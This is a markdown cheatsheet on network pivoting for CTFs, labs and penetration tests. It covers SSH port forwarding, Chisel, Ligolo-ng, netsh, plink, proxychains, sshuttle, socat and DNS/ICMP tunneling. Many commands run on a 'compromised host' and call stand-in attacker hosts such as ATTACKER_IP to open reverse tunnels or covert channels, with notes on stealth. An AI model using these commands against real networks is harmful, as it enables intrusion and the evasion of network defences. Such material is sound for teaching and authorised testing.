

# 📋 Pivoting Cheatsheet

> **Quick-reference commands for every pivoting tool and scenario.**
> Keep this open during CTFs, labs, and engagements!

---

## 🔍 Decision Flowchart: Which Tool?



---

## 🔐 SSH Commands

### Local Port Forwarding (-L)

```bash
# Access internal_target:port through pivot
ssh -L <local_port>:<target_ip>:<target_port> user@pivot

# Example: Access internal web server
ssh -L 8080:10.10.10.5:80 user@192.168.1.10

# Multiple ports
ssh -L 8080:10.10.10.5:80 -L 3306:10.10.10.5:3306 user@pivot

# Background, no shell
ssh -L 8080:10.10.10.5:80 -N -f user@pivot
```

### Remote (Reverse) Port Forwarding (-R)

```bash
# Expose your service to internal network
ssh -R <remote_port>:127.0.0.1:<local_port> user@pivot

# Example: Expose your web server on pivot
ssh -R 9090:127.0.0.1:80 user@pivot
```

### Dynamic Port Forwarding (-D) — SOCKS Proxy

```bash
# Create SOCKS proxy
ssh -D 9050 -N -f user@pivot

# Use with proxychains
proxychains nmap -sT -Pn 10.10.10.5
proxychains curl http://10.10.10.5
```

### Jump Host (-J)

```bash
# Through one jump host
ssh -J user@jump user@target

# Through multiple jump hosts
ssh -J user@jump1,user@jump2 user@target

# Jump + local forward
ssh -J user@jump -L 8080:target:80 user@target
```

---

## 🔵 Chisel Commands

### Server (Attacker)

```bash
chisel server --port 8000                  # Forward mode
chisel server --port 8000 --reverse        # Reverse mode (most common)
chisel server --port 443 --reverse         # On HTTPS port (stealth)
```

### Client (Compromised Host)

```bash
# Reverse port forward
chisel client ATTACKER:8000 R:<attacker_port>:<target>:<target_port>

# Reverse SOCKS proxy
chisel client ATTACKER:8000 R:socks
chisel client ATTACKER:8000 R:1080:socks   # Custom port

# Forward port
chisel client ATTACKER:8000 <local_port>:<target>:<target_port>

# Multiple tunnels
chisel client ATTACKER:8000 R:8080:10.10.10.5:80 R:445:10.10.10.5:445 R:socks
```

---

## 🟢 Ligolo-ng Commands

### Setup (Attacker)

```bash
# Create TUN interface
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# Start proxy
./proxy -selfcert
./proxy -selfcert -laddr 0.0.0.0:443   # Custom port
```

### Agent (Compromised Host)

```bash
# Linux
./agent -connect ATTACKER:11601 -ignore-cert

# Windows
agent.exe -connect ATTACKER:11601 -ignore-cert
```

### Proxy Console

```
session                  # Select agent session
ifconfig                 # View agent's network interfaces
start                    # Start tunnel
stop                     # Stop tunnel
listener_add --addr 0.0.0.0:PORT --to 127.0.0.1:PORT --tcp  # Create listener
listener_list            # List listeners
listener_stop ID         # Remove listener
```

### Routing (Attacker)

```bash
sudo ip route add 10.10.10.0/24 dev ligolo          # Route subnet
sudo ip route del 10.10.10.0/24 dev ligolo           # Remove route
ip route show | grep ligolo                           # View routes
```

### Double Pivot

```bash
# 1. Setup first tunnel (as above)
# 2. Create listener on Pivot 1
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
# 3. Run agent on Pivot 2 → connect to Pivot1:11601
# 4. Create second TUN + route
sudo ip tuntap add user $(whoami) mode tun ligolo2
sudo ip link set ligolo2 up
sudo ip route add 192.168.100.0/24 dev ligolo2
```

### Cleanup

```bash
sudo ip route del SUBNET dev ligolo
sudo ip tuntap del mode tun ligolo
pkill proxy; pkill agent
```

---

## 🪟 Windows Tunneling

### netsh portproxy

```cmd
:: Add port forward
netsh interface portproxy add v4tov4 listenport=4444 listenaddress=0.0.0.0 connectport=3306 connectaddress=10.10.10.5

:: Open firewall
netsh advfirewall firewall add rule name="pivot" dir=in action=allow protocol=TCP localport=4444

:: View active forwards
netsh interface portproxy show all

:: Delete forward
netsh interface portproxy delete v4tov4 listenport=4444 listenaddress=0.0.0.0

:: Reset everything
netsh interface portproxy reset
```

### plink.exe (PuTTY CLI)

```cmd
:: Reverse port forward (most useful)
echo y | plink.exe -ssh -R 8080:10.10.10.5:80 -N -l kali -pw password ATTACKER_IP

:: Local port forward
plink.exe -ssh -L 8080:10.10.10.5:80 -N -l kali -pw password ATTACKER_IP
```

---

## 🧦 Proxychains

### Configuration

```bash
# /etc/proxychains4.conf
dynamic_chain          # Skip dead proxies
proxy_dns              # Tunnel DNS too

[ProxyList]
socks5 127.0.0.1 1080  # Chisel default
# socks5 127.0.0.1 9050  # SSH -D
```

### Usage

```bash
proxychains nmap -sT -Pn -p 80,443,445 TARGET    # Nmap (TCP connect only!)
proxychains curl http://TARGET                      # curl
proxychains smbclient //TARGET/share -U user       # SMB
proxychains evil-winrm -i TARGET -u admin -p pass  # WinRM
proxychains ssh user@TARGET                         # SSH
proxychains xfreerdp /v:TARGET /u:admin             # RDP
```

> ⚠️ Nmap through SOCKS: **Must** use `-sT` and `-Pn`. No SYN/UDP/ICMP.

---

## 🚇 sshuttle

```bash
# Basic (transparent — no proxychains needed!)
sudo sshuttle -r user@pivot 10.10.10.0/24

# Multiple subnets
sudo sshuttle -r user@pivot 10.10.10.0/24 172.16.0.0/16

# With DNS
sudo sshuttle --dns -r user@pivot 10.10.10.0/24

# All traffic
sudo sshuttle -r user@pivot 0/0

# Background
sudo sshuttle -r user@pivot 10.10.10.0/24 -D

# Auto-detect subnets
sudo sshuttle -r user@pivot --auto-nets
```

---

## 🔧 Port Redirection (socat / netcat)

### socat

```bash
socat TCP-LISTEN:4444,fork TCP:TARGET:PORT              # Basic redirect
socat TCP-LISTEN:4444,fork,reuseaddr TCP:TARGET:PORT    # Reuse address
socat -d -d TCP-LISTEN:4444,fork TCP:TARGET:PORT        # Debug mode
```

### netcat (named pipe)

```bash
mkfifo /tmp/bp
nc -lvp 4444 < /tmp/bp | nc TARGET PORT > /tmp/bp
```

### ncat

```bash
ncat -lkp 4444 --sh-exec "ncat TARGET PORT"
```

---

## 🌐 DNS / ICMP Tunneling

### dnscat2

```bash
# Server (attacker)
ruby dnscat2.rb

# Client (victim)
./dnscat --secret SECRET attacker_ip
./dnscat --dns domain=tunnel.attacker.com     # Through corp DNS
```

### iodine

```bash
# Server
sudo iodined -c -P password 10.0.0.1/24 tunnel.domain.com

# Client
sudo iodine -P password tunnel.domain.com
```

### icmpsh

```bash
# Attacker
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
sudo python3 icmpsh_m.py ATTACKER_IP VICTIM_IP

# Victim (Windows)
icmpsh.exe -t ATTACKER_IP
```

---

## 📊 Tool Comparison Matrix

| Tool | Admin? | SSH? | Binary? | SOCKS | Subnet | ICMP | UDP | Stealth |
|------|--------|------|---------|-------|--------|------|-----|---------|
| SSH -L/-R | No | ✅ | No | No | No | No | No | Medium |
| SSH -D | No | ✅ | No | ✅ | No | No | No | Medium |
| sshuttle | Local | ✅ | No | N/A | ✅ | No | No | Medium |
| Chisel | No | No | ✅ | ✅ | No | No | No | Good |
| Ligolo-ng | No | No | ✅ | N/A | ✅ | ✅ | ✅ | Good |
| netsh | ✅ | No | No | No | No | No | No | Best |
| plink | No | ✅ | ✅ | ✅ | No | No | No | Medium |
| dnscat2 | No | No | ✅ | No | No | No | No | Good |
| iodine | ✅ | No | ✅ | No | ✅ | No | No | Good |
| icmpsh | No | No | ✅ | No | No | ✅ | No | Medium |

---

## 🔢 Common Ports Reference

| Port | Service | Pivoting Relevance |
|------|---------|-------------------|
| 22 | SSH | Tunnel/pivot |
| 53 | DNS | DNS tunneling |
| 80 | HTTP | Chisel, web shells |
| 443 | HTTPS | Chisel (stealth) |
| 445 | SMB | Internal file shares |
| 1080 | SOCKS (default) | Chisel SOCKS default |
| 1433 | MSSQL | Internal databases |
| 3306 | MySQL | Internal databases |
| 3389 | RDP | Remote desktop |
| 5432 | PostgreSQL | Internal databases |
| 5985 | WinRM | Windows remote mgmt |
| 9050 | SOCKS (common) | SSH -D convention |
| 11601 | Ligolo-ng | Agent connection |

---

## ⏮️ [← DNS & ICMP Tunneling](./09_dns_icmp_tunneling.md) | 🏠 [Back to Overview](./overview.md)
